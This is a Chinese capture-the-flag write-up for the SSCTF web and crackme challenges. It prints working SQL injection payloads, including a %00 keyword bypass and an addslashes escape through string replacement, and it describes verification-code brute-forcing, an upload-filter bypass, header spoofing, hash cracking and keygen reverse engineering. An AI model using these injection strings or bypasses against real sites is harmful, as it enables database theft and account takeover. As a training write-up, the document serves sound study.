


# SSCTF Writeup

2014/11/04 14:26 | [Ano_Tom](http://drops.wooyun.org/author/Ano_Tom "由 Ano_Tom 发布") | [技术分享](http://drops.wooyun.org/category/tips "查看 技术分享 中的全部文章") | 占个座先 | 捐赠作者

## 0x01 Web

* * *

**1.web1-信息获取**

Url:http://ctf.sobug.com/hack_game/e82b2db876111afd/index.php Point:100

Description: 获取信息，提交 key


Proceess:

打开题目，title 为 hex 和 cookie，下载图片载入编辑器，找到如下 hex

```
23696E636C7564652066696C653D22386630306232303465393830303939382E70687022 
```

解码为 include file="8f00b204e9800998.php"，访问该页面，查看 cookie，获得 base64 加密的 key 如图


解密即可。

Key:{SEcL0ver@2014}

**2.web2-慧眼识珠**

Url: http://ctf.sobug.com/hack_game/5220de5ab2a8ce7d/index.html

Point: 100

Description: 仔细查看页面，获取 key


Proceess:

访问，查看到 cookie 里有 check=0，因而想构造 check=1 的 cookie，构造完毕后继续访问发现页面仍未变化。 继续查看后发现当前页面为 index.html，里面的一段加密的 js 代码解密后就为 check=0，再无其他数据。修改 cookie 后尝试需访问其他动态页面，访问 index.php 后响应中返回 key，如图


Key: {seCL0veR1H@CKz0l4}

**3.web3-数据&暗语**

Url:http://ctf.sobug.com/hack_game/f31c5630b00b0131/index.php

Point:150

Description: 仔细查看页面获取你想要的 key


Proceess:

打开后，查看源代码提示 referer&code，图片中描述去官网看看，确定 referer 应为官网 Referer:http://www.seclover.com（ 注意请求头里若在末尾加了/不会出结果的，Referer:http://www.seclover.com/） 构造 referer 后，访问获得的响应内容如下


诺基亚的键盘结果如下


```
2abc 3def 4ghi 5jkl 6mno 7pqrs 8tuv 9wxyz 0 空格 
```

根据 0 分割数据

```
843 0 539 0 47 0 73256837 0 9352663 0 968 
```

猜出前几个个为 the key is，因而确定为有意义的单词，无需做词频统计之类的。最终获得的解密字符为 the key is seclover welcome you

Key:{seclover welcome you}

**4.web4-代理和搜索**

Url:http://ctf.sobug.com/hack_game/390532fb5dc7f219/index.php

Point:150

Description: 仔细查看页面，度娘知道答案哟


Proceess:

通过题目中谷歌是检索不到的，得知存在 robots.txt 文件，访问获得里面的 disallow 目录 U`ser-agent: * Disallow: /S$cL0ver/ Disallow: /include/`

访问/S$cL0ver/


根据说明，测试代理访问，本地设置 X-Forwarded-For 为 www.seclover.com 访问，获得您的 ip 为 www.seclover.com 得知其 ip 获取是利用 X-Forwarded-For，修改其为 www.seclover.com 的 ip，访问即可获得 key


Key:{S2CloveRWelcomE_Y0u}

**5.web5-编程&脚本**

Url:http://ctf.sobug.com/hack_game/f8495eeedb8e92ee/index.php

Point:200

Description: 编程解决问题


Proceess:

Burp 抓包可以看到响应头中有个 password 字段


每次请求都会变化，这样只要写个自动化脚本抓取后自动提交就可以了，脚本如下


跑起来就可以得到 key：


Key: {b7mIfekXA5lwLq}

**6.web6-windows 密码**

Url:http://ctf.sobug.com/hack_game/1ffd89ff6c2a0012/index.php

Point:150

Description: windows 密码机制


Proceess:

下载得到两张图片，进行处理 用 stegdetect 进行处理，发现利用 outguess 加密算法，隐藏的数据，根据提示是 windows 弱口令，试了几次成功读取 如图


查看 key 文件，得到 windows 的 ntml 哈希

```
ed6c3eb3f56395a1f76ccb47241e3d88:0816f03b51a8ea50bcc7707896c93518 
```

you can guess.what's this? http://www.objectif-securite.ch/ophcrack.php 破解得到 key wangke1234 Key:{wangke1234}

**7.web7-获取后台密码**

Url:http://ctf.sobug.com/hack_game/76412c649fb21553/index.php

Point:220

Description: 获取后台密码


Proceess:

有验证码，查看验证码是否存在绕过，此处的逻辑漏洞为找回密码功能，点开忘记密码，提示四位验证码已发送到您手机， 因而暴力猜解验证码即可。截取请求包，载入 burpsuite intruder，设置 payloads 为 0000-9999 进行爆破，爆破后如下


登录框登录成功后，弹出 key

Key:{4297f44b13955235245b2497399d7a92}

**8.web8-U 盘病毒**

Url:http://ctf.sobug.com/hack_game/eaf10b34b5ba8770/index.php

Point:300

Description: U 盘病毒分析，获取 key


Proceess:

下载 U 盘镜像后，解压 1.4M，果断 mount 之。得到一个 exe 和 autorun,根据 autorun 里的信息,放到 windows 下。 看了下是 winrar 的自解压的文件,然后用 winrar 打开，得到 3 个文件。如图


运行 1.exe 解压出一个隐藏的 test.txt 文件。内容如下，计算 md5 提交就是 flag

Key: {队友玩星际去了，没要到 key，我代写的}

**9.web9-电报解码**

Url:http://ctf.sobug.com/hack_game/70e8ff92f2cb2576/index.php

Point:200

Description: 仔细查看页面获取 key


Proceess:

Win7 访问是如上图的，但是 linux 访问直接显示的如下



根据摩斯码表得到明文：

```
xian seclover welcome you we are very happy for  you 
```

发现其是根据 UA 的系统进行判断是否返回数据的

Key:{队友玩星际去了，没要到 key，我代写的}

**10.web10-SQL**

Url:http://ctf.sobug.com/hack_game/f9abf127da5264c1/index.php

Point:350

Description: 注入绕过


Proceess:

根据题目得知参数为 id，访问获得如下提示


得知 sql 语句。将其载入 sqlmap 中可以读取到 database() version()等信息，其利用的是盲注。此处过滤了 select 等字符， 且大小写无法绕过。测试发现大致的过滤思路为，检测到字符串中有= 和 select 等字符，会提示 Holly Shit! Damn it.但 union 未检测，多次测试 select 用%00 来绕过


2 的位置有回显。接下来就是基本的 sql 注入了 先看版本 version()得知为 5.5.1、再看数据库 database()为 ctf0web 读取表`index.php?id=-1+union+se%00lect+1,table_name ,3+from+information_schema.tables+where+table_schema='ctf0web'#` 获得表名 helloctf 读取列名

```
index.php?id=-1+union+se%00lect+1,column_name,3+from+information_schema.columns+where+table_name='helloctf'# 
```

获得列名 id title flag 读取 flag `index.php?id=-1+union+se%00lect+1,flag,3+from+helloctf+where+id=1#` 获得 key

Key:{5e1325ba32f012c77f02c422251c3b7c}

**11.web11-UPLOAD**

Url:http://ctf.sobug.com/hack_game/8e3096620b9a89d1/index.php

Point:200

Description: 按题目要求完成


Proceess: Burp 抓包，传正常图片，提示｛不会吧，上传图片不好吧！至少你也传个能解析的啊！｝ 但上传 php 文件无论怎么改、截断都是提示文件类型错误，所以猜测其对 content-type 进行了验证，看其是否为图片。 此时上传图片改为 xx.php 提示上传文件出错，然后利用文件名为大写 PHP 绕过，如图


Key:{KunSecLover2@14}

**12.web12-SQL**

Url:http://ctf.sobug.com/hack_game/8f0784928387928a/index.php

Point:500

Description: 找找看看，有洞哟


Proceess:

得知为一博客系统，大致探测了下目录结构与文件，收获如下

```
/config.php
/content.php
/content/2014060212.txt
/content/2014061201.txt
/content/2014060901.txt
/admin/check.php
/admin/index.php
/admin/index.html 
```

Content.php 文件通过 file 参数传入文件名(不带后缀)，首先想到文件包含漏洞。 访问 `http://ctf.sobug.com/hack_game/8f0784928387928a/content.php?file=2014061201`为


而该文件为


因而可以确认其不是文件包含，而是文件读取。因而想构造参数读取 confi.php 里的内容。多次测试发现传入字符会提示日期错误，传入 file=2014061202000000 一个超长数据，提示服务器内部 500 错误，说明过了日期检测函数;传入 file=2014061202000000../提示日期格式不对，传入 file=0xabcdef123 提示服务器内部 500 错误。多次测试发现无法绕过其日期检测函数。

将注意力放在 admin 的登录框里，有验证码，输入帐号错误会提示不存在该帐号，测试了多个常用管理帐号后依然提示帐号不存在，由于题目是 SQL，因而考虑到是 sql 注入，测试了多次后，发现注入应该不在登录框处。

点开搜索框，url 为`search.php?word=&tongpeifu=*&sqltongpei=%` 显示结果如下


根据 url 参数命名方式，确定此处应该是注入点了，就是如何构造语句了。 通过搜索

```
search.php?word=l&tongpeifu=*&sqltongpei=%
search.php?word=x&tongpeifu=*&sqltongpei=% 
```

都能返回 linux 的搜索结果，从而确定 sql 执行的语句大致为

```
Select * from articles where title like ‘%word%’ 
```

然后需要弄清楚 tongpeifu 与 sqltongpei 以及 word 三者之间是个怎样的逻辑关系

默认三个参数都不传 word=&tongpeifu=&sqltongpei=，返回所有数据 传入`/search.php?word=li?ux&tongpeifu=?&sqltongpei=` 发现没有回显内容，如图


提交`search.php?word=li?ux&tongpeifu=?&sqltongpei=n` 获得回显


因而大致确定程序的逻辑 tongpeifu 是指 word 中的，在执行 sql 语句时候将 word 中 tongpeifu 代表位置用 sqltongpei 替换。 逻辑清晰了，下面就是要构造 sql 语句进行注入。构造恒成立语句查看

```
search.php?word=*&tongpeifu=*&sqltongpei=n%' and 1=1 and '%'=' 
```

发现并无返回数据，多次测试仍无果。

猜测是单引号被转义了，查看了 php 版本为 5.5 默认无 gpc，则考虑到可能是对获取的数据进行了 addslashes 处理，现在要做的就是如何绕过 addslashes，使单引号逃逸出来。 本地测试。

其实 word tongpeifu sqltongpei 的处理逻辑，在 php 中实现就是一个 str_replace 函数。

构造本地测试的代码为 先查看 addslashes 的处理单引号、双引号、反斜线、空字符 测试代码

```
<?php
//addslashes 处理的内容有'、\、"、NULL 四个字符
if (isset($_GET['singleq'])) {
    echo "' -----> ".addslashes($_GET['singleq'])."<br/>";
}
if (isset($_GET['doubleq'])) {
    echo "\" -----> ".addslashes($_GET['doubleq'])."<br/>";
}
if (isset($_GET['backslash'])) {
    echo "\\ -----> ".addslashes($_GET['backslash'])."<br/>";
}
if (isset($_GET['null'])) {
    echo "%00 -----> ".addslashes($_GET['null'])."<br/>";
}
//sql test
$word=addslashes($_GET['word']);
$tongpeifu=addslashes($_GET['tongpeifu']);
$sqltongpei=addslashes($_GET['sqltongpei']);
echo $word."<br/>";
echo $tongpeifu."<br/>";
echo $sqltongpei."<br/>";
$result=str_replace($tongpeifu, $sqltongpei, $word);
echo "sql--query:"."select title from articles where title like '%{$result}%'"."<br/>"; 
```

输出为


有没有很熟悉，echsop 之前爆过的一个插件注入也是类似，利用替换，将单引号逃逸出来 仔细想想，该怎样进行替换，才会使单引号逃逸出来？ 首先在 word 中测试，另外两个参数为空，查看输出


Word 中的\ ‘ %00 中的反斜线都是成对出现的，所以要想使得单引号逃逸出来，必须使得其前面的\被转义， 那通配符该用哪个进行替换呢，使得通配符分别为’或\或%00，时候，其替换的时候也为成对替换，因为其自身也被转义了。


但是将通配符变为\0 查看输出


令 sqltongpeif=\ 输出查看，单引号逃逸


然后执行常规的查库、查表、读取 flag。 Order by 判断有 4 个字段， 查到数据库为 sql_seclover 请求为

```
search.php?word=l\%00' union select 1,schema_name,3,4 from information_schema.schemata where 1 %23&tongpeifu=\0&sqltongpei=\ 
```

查表有 content、admin（里面无数据，因而后台登录是虚设？）、secret 请求为

```
search.php?word=l\%00' union select 1,table_name,3,4 from information_schema.tables where table_schema=0x73716C5F7365636C6F766572 %23&tongpeifu=\0&sqltongpei=\ 
```

查字段 sid skey 请求为

```
search.php?word=l\%00' union select 1,column_name,3,4 from information_schema.columns where table_name=0x736563726574 %23&tongpeifu=\0&sqltongpei=\ 
```

获得 key{Seclover W@1C0me ^u0} 请求为

```
search.php?word=l\%00' union select 1,skey,3,4 from secret where 1 %23&tongpeifu=\0&sqltongpei=\ 
```

Key:{Seclover W@1C0me ^u0}

## 0x02 Crack

* * *

**1.crack1-Crackme1**

Url:http://ctf.sobug.com/crackme/b4dc971ef90cb6ae/index.php

Point:100

Proceess:

拖到 ida 中，逻辑很简单。 找到关键函数 sub_401000，分析。 看了下就是和 unk_408030 位置的数字进行一系列抑或，而且是简单的抑或。所以这个不用逆算法就行，直接上 od。 转到 0x401000 处，在程序结束的地方下断点，运行程序。成功断下后，直接在栈上可以看到注册码，如图。


**2.Crack2-Crackme2**

Url:http://ctf.sobug.com/crackme/82a7d5ac894e5bb8/index.php Point:200

Process:

一个易语言写的程序~ OD 载入，ALT+M， 在 crackme.data 段 F2 下断，F9 运行


中断在 krnln 库文件代码里，F8 单步过下面的 JMP 就到程序领空


，这时找字符串，应该是有 2 个还是 3 个失败，1 个不能为空，1 个成功，所有中文字符串都下上断点,分析下


首先随便输入，如果断下来


判断密码是不是 32 位的 生成正确注册码


F9 重新运行，在上面的那个函数断下后，看栈里，下面的那个就是正确的注册码


**3.Crack3-Crackme3**

Url:http://ctf.sobug.com/crackme/e26cac7bac3f78c1/index.php

Point:300

Process:

分析个 sethc.exe 粘贴键后门。 直接看消息处理的地方吧


1 那个地方是判断 ecx 是不是为 0x30，这个地方是鼠标的点击次数，下面会有分析

2 那个地方是判断按的是确定还是取消，确定是 1，取消是 2


继续往下看


点击鼠标左键右键都会让 ecx+1，左键在 403070 处写入 0x4c,右键写入 0x52 到满足 ecx==0x30 的时候，会来到 00401C40 这个地方判断鼠标点击的那 48 下的具体情况； 下面这个循环，将 0x4c 对应一个 0，0x52 对应一个 1，48 下转化为 6 字节


下面那个比较的地方，那 6 个字节和“查水表”的 HEX 值比较


比较一样就可以启动“后门”弹出本题的 flag：D27789EFCA409B6B6EE297D412334A65 所以把“查水表”的 2 进制转化出来，就可以确定鼠标左键右键点击的次序，触发“后门”。

**4.Crack4-Crackme4**

Url:http://ctf.sobug.com/crackme/820af53738bfa68e/index.php Point:400 Process: 提示为：输入正确的密码，会释放出文件。key 就在文件中。 tips:第一层密码为 6 为纯数字，第二层密码也是 6 位。 拿到程序后，放入 PEID


FSG 的壳，脱壳后发现里面有文件让损坏，所以带壳分动态调试，IDA 分析脱壳后的吧。


运行到第 3 行命令那，栈里第 4 个位置就是程序入口。在栈中里那个位置右键数据窗口中跟随



然后下硬件访问断点，F9，然后就可以看到真正的代码了 先看 401370 函数吧，这个是对结果的处理函数，等下分析的时候需要用到，输入的参数为数字，然后 6 种情况


然后 IDA 的 F5 看


为空没有输入密码，不为空进入 4013E0 处理~ 下面这个函数，当我脱壳后会返回错误 5，所以带壳分析了••


进去看下，当返回成 0 的时候为正确，那么就会生成文件，如果返回 2，是密码错误。 里面有把你的密码经过 sprintf 和“HOWHP”连接在一起，经过 401000 的 2 次加密，和一个特定的 hash 对比。 根据我的那个方法跟一下就 OK 了，然后需要获得的 hash 如下 esi=0018F9F0, (ASCII "09B2F924C20C5CA427EED2C5B98BEFBF")


需要加密后的 hash 为 第一步，我采取的爆破，提示说是第一个密码是 6 位纯数字，代码在附件里。如果有附件~~ 爆破出来是 564987


然后生成了一个一样的 exe,同样加壳。只是最后生成的文件会不一样。这个的密码提示为 6 位，但是不一定是纯数字了，我一开始直接拿第一步写的程序跑了下纯数字，果然不行，然后就去看程序，修改指令，看看会生成什么，结果发现生成了个 gif 马上想到 GIF89a 6 位，也许可以推算出来 key 在 401270 函数里是写文件的，调用了 40110 把你输入的 key 和原有资源做运算


看看算法


异或操作，果然可以！ 我使用的密码是 123456 然后使用爆破的方法让逻辑正确，会生成一个***|||||||.gif 的文件 然后你 winhex 打开生成的 gif,比如第一个字节为 0x01,然后 G 的 hex 值为 0x47 使用 chr(0x31⁰x01^'0x47') #python 就能得正确 key 的第一个字母，一次下去，GIF89a，就可以得到正确的 key 输入正确的 key，解密出来一个 gif，打开就是 flag.

**5.Crack5-Crackme5**

Url:http://ctf.sobug.com/crackme/02de861ff6b52930/index.php

Point:500

Process:

1：拿到程序后，首先看了字符串


有反调试，根据那些 int3，很明显是 seh 反调试，打乱程序的执行流程，导致定位关键函数带来困难行流程。 2：来到跟进异常处理，来到


下面的这个地方判断是不是 int3 引起的异常，是就往下执行，不是就返回 EXCEPTION_CONTINUE_SEARCH


这个地方，设置 EIP


来我们看看 edx 的值


也是 int3，带着疑惑，继续看~~ 多试几次后，EDX 在不断增大~ 最后 10 多次后，发现了不是 int3 的情况


进一步的跟踪，发现是用异常处理例程是没隔 10 次左右的 INT3 异常对应一条 MSAM 语句，所有的语句整合起来，也就是注册码的算法了~ 此外 UnhandledExceptionFilter 在没有 debugger attach 的时候才会被调用。所以，跟踪起来很困难。 选择设置条件记录断点


整理后


根据结果就可以分析算法了。最后做出注册机，提交 OK~ 附上源码和一个可以执行的账号~ 请注意：注册机的输出倒过来才是正确的注册码，然后用户名和注册码不能相同，不想改了，注意下就好

```
v_dature 536426 
```


版权声明：未经授权禁止转载 [Ano_Tom](http://drops.wooyun.org/author/Ano_Tom "由 Ano_Tom 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [利用 insert，update 和 delete 注入获取数据](http://drops.wooyun.org/tips/2078)
*   [爬虫技术浅析](http://drops.wooyun.org/tips/3915)
*   [基于 ossec logstash es 大数据安全关联分析](http://drops.wooyun.org/tips/2821)
*   [从内存中窃取未加密的 SSH-agent 密钥](http://drops.wooyun.org/tips/2719)
*   [DedeCMS 最新通杀注入(buy_action.php)漏洞分析](http://drops.wooyun.org/papers/979)
*   [CVE-2014-6321 schannel 堆溢出漏洞分析](http://drops.wooyun.org/papers/4194)